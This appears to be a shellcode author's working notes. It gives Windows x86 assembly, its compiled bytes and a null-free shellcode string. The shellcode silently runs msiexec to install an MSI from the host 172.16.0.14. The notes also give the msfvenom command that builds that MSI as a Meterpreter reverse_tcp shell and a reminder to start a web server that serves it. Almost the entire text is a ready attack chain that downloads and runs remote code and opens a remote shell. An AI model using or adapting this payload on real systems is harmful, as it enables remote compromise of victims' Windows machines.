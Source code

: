 https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12

# Follow above tutorials to output shellcode or follow dudes write-up....I'm sure it works!

# The following asm does this: #

# msiexec /i http*://172.16.0.14/jasonm.msi /qn

# Need to Determine LoadLibrary, ExitProcess & System via Arwin


------------assembly starts---------------

BITS 32


global _start


_start:
			
mov ebx, 0x777fde35      ;Address of function LoadLibraryA (win7)

call ebx

mov ebp, eax             ;msvcrt.dll is saved in ebp

xor eax, eax

PUSH eax

PUSH 0x6e712f20

PUSH 0x69736d2e

PUSH 0x6d6e6f73

PUSH 0x616a2f34

PUSH 0x312e302e

PUSH 0x36312e32

PUSH 0x37312f2f

PUSH 0x3a707474

PUSH 0x6820692f

PUSH 0x20636578

PUSH 0x6569736d

MOV EDI,ESP

PUSH EDI

MOV EAX, 0x768db177		;calling the system()

CALL EAX

xor eax, eax

push eax

mov eax, 0x7780be5a     ; ExitProcess

call eax

--------------assembly end----------------------------------

Save as msi.asm


xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.bin

xvz@xvz-PC ~
$ xxd -i msi.bin
unsigned char msi_bin[] = {
  0x4c, 0x01, 0x01, 0x00, 0x2e, 0x4c, 0x0f, 0x5f, 0x93, 0x00, 0x00, 0x00,
  0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78,
  0x74, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x57, 0x00, 0x00, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x93, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x20, 0x00, 0x50, 0x60,
  0xbb, 0x35, 0xde, 0x7f, 0x77, 0xff, 0xd3, 0x89, 0xc5, 0x31, 0xc0, 0x50,
  0x68, 0x20, 0x2f, 0x71, 0x6e, 0x68, 0x2e, 0x6d, 0x73, 0x69, 0x68, 0x73,
  0x6f, 0x6e, 0x6d, 0x68, 0x34, 0x2f, 0x6a, 0x61, 0x68, 0x2e, 0x30, 0x2e,
  0x31, 0x68, 0x32, 0x2e, 0x31, 0x36, 0x68, 0x2f, 0x2f, 0x31, 0x37, 0x68,
  0x74, 0x74, 0x70, 0x3a, 0x68, 0x2f, 0x69, 0x20, 0x68, 0x68, 0x78, 0x65,
  0x63, 0x20, 0x68, 0x6d, 0x73, 0x69, 0x65, 0x89, 0xe7, 0x57, 0xb8, 0x77,
  0xb1, 0x8d, 0x76, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xb8, 0x5a, 0xbe, 0x80,
  0x77, 0xff, 0xd0, 0x2e, 0x66, 0x69, 0x6c, 0x65, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0xfe, 0xff, 0x00, 0x00, 0x67, 0x01, 0x6d, 0x73, 0x69,
  0x2e, 0x61, 0x73, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x74, 0x65, 0x78, 0x74, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x03, 0x01, 0x57, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x2e, 0x61, 0x62, 0x73, 0x6f, 0x6c, 0x75, 0x74, 0x00,
  0x00, 0x00, 0x00, 0xff, 0xff, 0x00, 0x00, 0x03, 0x00, 0x40, 0x66, 0x65,
  0x61, 0x74, 0x2e, 0x30, 0x30, 0x01, 0x00, 0x00, 0x00, 0xff, 0xff, 0x00,
  0x00, 0x03, 0x00, 0x04, 0x00, 0x00, 0x00
};

#Get rid of null bytes

xvz@xvz-PC ~
$ ./xxd-shellcode.sh msi.bin

"\xbb\x35\xde\x7f\x77\xff\xd3\x89\xc5\x31\xc0\x50\x68\x20\x2f\x71\x6e\x68\x2e\x6d\x73\x69\x68\x73\x6f\x6e\x6d\x68\x34\x2f\x6a\x61\x68\x2e\x30\x2e\x31\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x37\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x89\xe7\x57\xb8\x77\xb1\x8d\x76\xff\xd0\x31\xc0\x50\xb8\x5a\xbe\x80\x77\xff\xd0"

#add to script

#Create MSI
#msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

#Start web-server port 80
